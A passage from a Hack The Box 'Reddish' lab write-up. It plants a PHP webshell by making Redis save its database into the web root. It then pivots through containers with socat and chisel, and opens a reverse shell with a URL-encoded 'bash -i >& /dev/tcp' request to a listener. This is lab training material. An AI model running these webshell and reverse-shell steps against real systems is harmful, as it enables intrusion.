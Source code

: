 ```bash
#!/bin/bash

## be sure to be in the same directory where the webshell is
cat x.php | redis-cli -h 127.0.0.1 -x set reverse

redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/

redis-cli -h 127.0.0.1 config set dbfilename "x.php"

redis-cli -h 127.0.0.1 save
```

In case the webshell gets deleted re-run the script
```bash
bash redis-upload.sh
```

Remote command execution is obtained on 172.19.0.2.
![rce 172.19.0.2](/assets/img/htb/reddish/rce_172_19_0_2.png)

The attacker machine then transfers socat to the nodered container which the attacker machine has access, using socat it listens all the connections on port 9002 and redirects it to the attacker machine on port 9002, before doing this chisel is stopped with ctrl+c. [socat guide](https://www.cyberciti.biz/faq/linux-unix-tcp-port-forwarding/)

```bash
root@nodered:/tmp/workspace_nodered_container## ./socat TCP-LISTEN:9002,fork TCP:10.10.14.26:9002 &
```

Making use of chisel the ports from the other 2 machines are forwarded to the attacker machine again

```bash
./chisel client 10.10.14.26:1234 R:81:172.19.0.2:80 R:6379:172.19.0.3:6379
```

Upload the webshell again.

```bash
bash redis_upload.sh
```

On the attacker machine a listener is created on port 9002
```bash
nc -lnvp 9002
```
Using the webshell an interactive bash session is forwarded from 172.19.0.2 to 172.19.0.4 
```bash
http://127.0.0.1:81/8924d0549008565c554f8128cd11fda4/x.php?x=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/172.19.0.4/9002%200%3E%261%22
```

A shell is obtained as www-data on 172.19.0.2 (www container)
[shell 172.19.0.2](/assets/img/htb/reddish/shell_172_19_0_2.png)

Network Map updated.
```java
[Attacker] 10.10.14.26

  [nodered] 172.18.0.2:1880 172.19.0.4:1880 (root)
  
    [host]        172.19.0.1

    [www] 172.19.0.2:80   172.20.0.3:80 == site (www-data)
                                    
    [redis] 172.19.0.3:6379 == database of [www]

```
